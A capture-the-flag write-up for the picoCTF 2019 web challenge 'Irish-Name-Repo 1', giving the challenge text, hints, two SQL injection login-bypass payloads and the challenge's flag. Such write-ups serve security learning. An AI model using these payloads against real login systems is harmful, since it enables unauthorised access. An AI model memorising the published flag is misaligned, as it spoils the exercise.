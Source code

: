 # Irish-Name-Repo 1

Point: 300

## Category

Web Exploitation

## Question

There is a website running at https://2019shell1.picoctf.com/problem/37868/ (link) or http://2019shell1.picoctf.com:37868. Do you think you can log us in? Try to see if you can login!

## Hint

There doesn't seem to be many ways to interact with this, I wonder if the users are kept in a database?

Try to think about how does the website verify your login?

## Solution

This is a SQL injection vul. 

```bash
Username:       ' OR 'A' = 'A' -- 
or another one: ' OR 1 --
```

Then click to Login buttom to see the flag

## Flag

picoCTF{s0m3_SQL_a57b0b1d}

